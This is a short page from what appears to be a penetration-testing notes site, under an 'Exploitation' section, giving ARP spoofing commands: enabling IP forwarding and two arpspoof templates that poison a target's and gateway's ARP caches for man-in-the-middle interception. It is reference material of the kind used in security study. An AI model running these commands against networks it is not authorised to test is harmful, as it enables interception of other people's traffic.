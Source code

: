 ```yaml
---
layout: default
title: Spoofing
parent: Exploitation
nav_order: 1
---
```


# Spoofing
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

### ARP Spoofing

`echo 1 > /proc/sys/net/ipv4/ip_forward` - enables IP forwarding   
`arpspoof -i <int> -t <target ip addr> -r <host to spoof i.e. gw>`  
`arpspoof -i <int> -r <host to spoof i.e. gw> -t <target ip addr>`  

